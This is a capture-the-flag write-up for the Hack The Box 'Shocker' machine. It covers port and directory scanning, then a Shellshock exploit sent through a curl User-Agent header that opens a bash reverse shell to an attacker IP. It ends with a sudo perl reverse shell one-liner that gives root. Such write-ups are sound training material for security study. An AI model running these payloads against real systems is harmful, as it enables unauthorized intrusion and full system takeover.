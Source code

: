 ```yaml
---
title: "Shocker"
description: "Writeup for Shocker machine from HTB"
date: 2020-08-11
author: "Pablo Jesús González Rubio"
cover: "shocker.png"
coverAlt: "Shocker icon"
toc: true
tags: [ "Writeup" ]
---
```


## Scanning

Hosts: `10.10.10.56 shocker.htb`

Nmap:

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

`gobuster dir -u shocker.htb -w /usr/share/wordlists/dirb/big.txt -x php,txt,html -r -f -t 25`:

```
/.htpasswd
/.htpasswd.php
/.htaccess
/.htaccess.php
/.htaccess.txt
/.htaccess.html
/.htaccess.sh
/.htpasswd.txt
/.htpasswd.html
/.htpasswd.sh
/cgi-bin/
/cgi-bin/.html
/index.html
/server-status
```

As there's a `cgi-bin` directory I'll try to search for `.sh` scripts inside it:

`gobuster dir -u http://shocker.htb/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x sh`:

```
/user.sh
```

So the complete url is `/cgi-bin/user.sh`.

## Exploitation

We can try the Shellshock exploit, which takes advantage of bash scripts.

Full explanation of Shellshock [here](https://security.stackexchange.com/questions/68168/is-there-a-short-command-to-test-if-my-server-is-secure-against-the-shellshock-b/68177).

Examples of it [here](https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited).

Shellshock is something like this:

```
() { :; }; <COMMANDS>
```

If tried on a webpage:

```
curl -H "User-Agent: () { :; }; <BASH COMMANDS>" <WEBPAGE>/cgi-bin/<SCRIPT>
```

To verify ours is vulnerable:

```
curl -H "User-Agent: () { :; }; echo -e '\n\n\033[31mVULNERABLE\033[0m'" http://shocker.htb/cgi-bin/user.sh
```

Which results in:

{{< img "vulnerable.png" "Vulnerable" "border" >}}

If that worked, we should have an easy reverse shell:

```
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.36/4444 0>&1" http://shocker.htb/cgi-bin/user.sh
```

And listening with `nc -lnvp 4444`:

{{< img "exploit.png" "Exploit" "border" >}}

And we are user `shelly`.

## Privilege Escalation

### Root

I tried `sudo -l` (as I say in other writeups, this is part of a Privilege Escalation routine) to check what I could execute as superuser and:

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can run `perl` with sudo without it asking for a password, so we can set a reverse shell to `root` with perl in seconds (I used [Reversegen](https://github.com/n0nuser/Reversegen)):

```
sudo perl -e 'use Socket;$i="10.10.14.36";$p=3333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

And listening with `nc -lnvp 3333`:

{{< img "root.png" "Root!" "border" >}}

Easy!
